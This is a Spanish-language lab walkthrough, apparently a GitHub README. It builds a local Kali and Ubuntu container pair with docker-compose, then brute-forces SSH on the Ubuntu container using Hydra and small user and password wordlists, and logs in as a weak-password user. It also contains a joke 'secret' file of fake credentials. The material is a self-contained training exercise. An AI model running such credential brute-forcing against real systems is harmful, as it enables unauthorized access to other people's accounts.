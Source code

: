 ## Escenario1

### Docker-compose

```docker-compose
version: '3'

services:
  kali-linux:
    image: kalilinux/kali-rolling
    container_name: kali-container
    tty: true
    stdin_open: true
    command: /bin/bash
    networks:
      - mynetwork

  ubuntu:
    image: ubuntu
    container_name: ubuntu-container
    tty: true
    stdin_open: true
    command: /bin/bash
    networks:
      - mynetwork
    depends_on:
      - kali-linux

networks:
  mynetwork:
    driver: bridge
```

```bash
docker-compose up -d
```





### Kali-container

```bash
bash
```

```bash
docker exec -ti kali-container /bin/sh
```

```bash
apt update
```

```bash
apt install -y nano
```

```bash
apt install -y openssh-server openssh-client
service ssh start
```

```bash
apt install -y hydra
```

```bash
nano users.txt
nano passwords.txt
```

```bash
#nano users.txt
admin
administrador
user
usuario
root
mario
pablo
cristian
```

```bash
#nano passwords.txt
12345678
admin
mypass
abc123.
password
```



**Una vez hecho el apartado "Ubuntu-container"**

```bash
hydra -L ./users.txt -P passwords.txt ea707459946d -t 4 ssh
```

***ea707459946d* corresponde con el hostname de *ubuntu-container* en este caso.**



```bash
ssh mario@ea707459946d
#abc123.
```



### Ubuntu-container

```bash
bash
```

```bash
docker exec -ti ubuntu-container /bin/sh 
```

```bash
apt update
```

```bash
apt install -y nano
```

```bash
apt install -y openssh-server openssh-client
service ssh start
```

```bash
useradd mario -s /bin/bash -m   
passwd mario 
#abc123.
```

```bash
mkdir /home/mario/secreto
nano /home/mario/secreto/contraseñas.txt 
# te la creiste ;)
ip 192.168.0.10 
	#users	->	#passwords
	eric_cartman -> southpark1
	stan_marsh -> southpark2
	kenny_mccormick -> southpark3
	kyle_broflovsky -> southpark4
	
```




